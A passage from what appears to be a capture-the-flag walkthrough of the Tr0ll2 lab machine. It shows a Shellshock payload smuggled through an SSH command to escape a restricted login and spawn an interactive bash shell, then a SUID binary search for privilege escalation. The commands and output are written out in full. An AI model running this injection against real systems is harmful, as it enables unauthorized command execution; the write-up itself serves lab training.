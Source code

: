 
## Exploitation
### Access via SSH

We login through SSH as user noob, but we don't have a shell, the server closes us the connection.

```bash
root@kali:~$ ssh -i noob -l noob 192.168.179.183
TRY HARDER LOL!
Connection to 192.168.179.183 closed.
```

As is an old version of SSH is possible that this ubuntu version to be vulnerable to shellshock.

```bash
root@kali:~$ ssh -i noob -l noob 192.168.179.183 '() { :;}; echo hello;id'
hello
uid=1002(noob) gid=1002(noob) groups=1002(noob)
```

As we saw earlier, it is vulnerable to shellshock and we can bypass the system restriction and execute commands.

```bash
root@kali:~$ ssh -i noob -l noob 192.168.179.183 '() { :;}; echo hello;bash -i'
hello
bash: no job control in this shell
noob@Tr0ll2:~$
```

Listing the SUID binaries three suspect files were found.

```bash
noob@Tr0ll2:~$ find / -perm -u=s -type f -exec ls -la {} \; 2>/dev/null
...
-rwsr-xr-x 1 root root 7271 Oct  4  2014 /nothing_to_see_here/choose_wisely/door2/r00t
-rwsr-xr-x 1 root root 7273 Oct  5  2014 /nothing_to_see_here/choose_wisely/door3/r00t
-rwsr-xr-x 1 root root 8401 Oct  5  2014 /nothing_to_see_here/choose_wisely/door1/r00t
```

We see three files, perhaps a means of privilege escalation via buffer overflow.

```bash
noob@Tr0ll2:~$ ls -la /nothing_to_see_here/choose_wisely/*         
ls -la /nothing_to_see_here/choose_wisely/*
/nothing_to_see_here/choose_wisely/door1:
total 16
drwsr-xr-x 2 root root 4096 Oct  4  2014 .
drwsr-xr-x 5 root root 4096 Oct  4  2014 ..
-rwsr-xr-x 1 root root 7271 Oct  4  2014 r00t

/nothing_to_see_here/choose_wisely/door2:
total 20
drwsr-xr-x 2 root root 4096 Oct  5  2014 .
drwsr-xr-x 5 root root 4096 Oct  4  2014 ..
-rwsr-xr-x 1 root root 8401 Oct  5  2014 r00t

/nothing_to_see_here/choose_wisely/door3:
total 16
drwsr-xr-x 2 root root 4096 Oct  5  2014 .
drwsr-xr-x 5 root root 4096 Oct  4  2014 ..
-rwsr-xr-x 1 root root 7273 Oct  5  2014 r00t
```
